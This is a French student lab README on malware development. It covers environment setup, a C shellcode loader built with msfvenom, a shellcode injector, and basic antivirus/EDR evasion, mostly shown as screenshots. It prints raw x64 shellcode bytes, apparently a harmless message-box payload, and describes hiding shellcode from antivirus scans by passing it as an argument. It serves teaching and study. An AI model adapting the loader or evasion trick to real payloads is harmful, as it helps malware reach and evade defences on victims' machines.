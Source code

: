 
# Labos réalisés par
>Marco Profetto
>
>Mohamed Harag
>
>Antoine Blairon


# 0. Paramétrisation de l'environnement de test:
Download & upload ISO file:
![image](https://github.com/user-attachments/assets/d218bd6b-5807-425b-8d50-326c37265e8d)

Installation de la machine virtuelle (labo):
![image](https://github.com/user-attachments/assets/19c93366-97ff-4bdb-adb4-a1a6e97c772d)

Snapshot avant début exercices:
![image](https://github.com/user-attachments/assets/cb6766d4-12c6-4be4-80f3-d8f5117cfde1)

Installation Metasploitframework:
![image](https://github.com/user-attachments/assets/a4c95507-bff6-467f-a464-9f7a351bf59b)

![image](https://github.com/user-attachments/assets/68da3cdf-80c9-4cd5-b35b-e4550a593e7f)

Installation Windbg:
![image](https://github.com/user-attachments/assets/707355be-62eb-49c0-8a3d-8fb3b3b1ab85)

Installation de GCC

# Charge utile:

\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x19\x00\x00\x00\x54\x61\x73\x6b\x20\x66\x61\x69\x6c\x65\x64\x20\x73\x75\x63\x63\x65\x73\x73\x66\x75\x6c\x6c\x79\x00\x5a\xe8\x0b\x00\x00\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78\x00\x41\x58\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5

# 1. Création d'un loader de shell Code basique en C

msfvenom pour créer un shell code:
![image](https://github.com/user-attachments/assets/429a8f32-0588-4fb1-a6be-2862c18ba29d)

Compilation du code grâce au shell code obtenu à l'étape précédente:
![image](https://github.com/user-attachments/assets/eabeaad4-bdc2-4bd9-9dba-7c1bfcafcb58)

![image](https://github.com/user-attachments/assets/7a41d271-3fa4-4d1b-9868-d9f7091cb746)

Lancement du malware produit:
![image](https://github.com/user-attachments/assets/685dcc1a-6b79-4deb-b8be-e8f1f777f470)

Monitoring de l'exécution grâce à WinDBG:
![image](https://github.com/user-attachments/assets/bbf12d14-d3fd-428c-b902-33e50e3787ee)

# 2. Bonus 1 : Exécution du shellcode sans CreateThread()
Modifier le loader pour exécuter le shellcode sans utiliser l'API CreateThread()



Exercice 2 : Création d'un injecteur de shellcode basique
Obtenir un handle du processus cible

# 3. Basic Antivirus Evasion
Tentative de shellcode grâce à la technique d'évasion:
Eviter d'écrire directement dans le code mais plutôt de passer en argument le shellcode pour que l'antivirus ne détecte pas ce shellcode lors de l'analyse.

Objectif :
Mettre en œuvre des techniques d’évasion pour éviter la détection par un antivirus (AV) ou un système de détection et de réponse aux menaces (EDR).


![image](https://github.com/user-attachments/assets/2167853e-fa4b-4807-9993-f92edce6632c)



# Références:
Cas Van Cooten
- https://github.com/chvancooten/maldev-for-dummies/blob/main/Slides/Malware%20Development%20for%20Dummies%20-%20X33fcon%2030-05-2023.pdf
